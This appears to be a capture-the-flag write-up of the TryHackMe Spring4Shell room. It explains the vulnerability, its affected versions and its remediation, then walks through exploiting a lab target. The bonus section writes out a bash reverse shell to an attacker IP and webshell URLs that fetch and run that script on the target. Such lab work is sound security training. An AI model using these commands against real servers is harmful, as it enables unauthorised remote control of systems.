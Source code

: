 ```yaml
---
published: false
---
```

Using remote command execution on vulnerable Java Spring framework which affect a component of framework called “Spring Cloud Functions”. The secondary portion of vulerability affects “Spring Core” which leans on the (Log4Shell) and is named “Spring4Shell”.

----------

Legal Notice && Usage: *The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.* *By continuing, you acknowledge the aforementioned user risk/responsibilities.*

----------



# Task 2  **Tutorial** Vulnerability Background

SpringSource Spring Framework 2.5.x before 2.5.6.SEC02, 2.5.7 before 2.5.7.SR01, and 3.0.x before 3.0.3 allows remote attackers to execute arbitrary code via an HTTP request containing class.classLoader.URLs[0]=jar: followed by a URL of a crafted .jar file.


## Workings of CVE

(Copied from TryHackMe Room: https://tryhackme.com/room/spring4shell)

Model-View-Controller is part of the Spring Framework which is used to develop web applications followinga  diesign pattern. The patters are 

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.

**How Does it Work?**
To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.
Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.

**Limitations**
Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.
The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.
Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

- JDK 9+
- A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)
- Apache Tomcat as a server for the Spring application, packaged as a WAR
- A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework

It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

**Remediations**
Fortunately, patched versions of the Spring Framework have been released. To remediate Spring4Shell, ensure that you are using a version of Spring released after patch 18 of minor release 5.3 (i.e. after 5.3.18), or after patch 20 if using minor release 5.2 (i.e. after 5.2.20). Upgrading the version of the framework is enough to remove the vulnerability from your applications.
If upgrading is not possible, it is possible to somewhat mitigate this vulnerability by setting a blocklist of vulnerable field patterns. More advice on this can be found [here](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement).


# Task 3  Practical Exploitation

Download the file/unzip with password `TryHackMe123!`

`Exploit.py`

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649352726699_image.png)


Target IP: 10.10.222.167

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353547100_image.png)


source:

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353564518_image.png)


**Exploit Target**

    python3 exploit.py http://10.10.222.167
![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353814581_image.png)


Access target:

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353842145_image.png)


**Answer the questions below**

Follow the steps in the task to exploit Spring4Shell and obtain a webshell.

    no answer needed


**[Bonus Question: Optional]** Use your webshell to obtain a reverse/bind shell on the target.
Create `bashshell.sh`

    #!/bin/bash
    
    bash -i >& /dev/tcp/10.6.124.83/443 0>&1



    http://10.10.222.167/tomcatwar.jsp?pwd=thm&cmd=curl%2010.6.124.83/bashshell.sh%20-o%20/dev/shm/bashshell.sh

Upload to target `/dev/shm` and `chmod 777 bashshell.sh`

execute script in browser with `cmd`

    http://10.10.222.167/tomcatwar.jsp?pwd=thm&cmd=bash%20/dev/shm/bashshell.sh

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649356225176_image.png)


What is the flag in `/root/flag.txt?`

    THM{NjAyNzkyMjU0Mz....wZDdiM2E5YzFm}


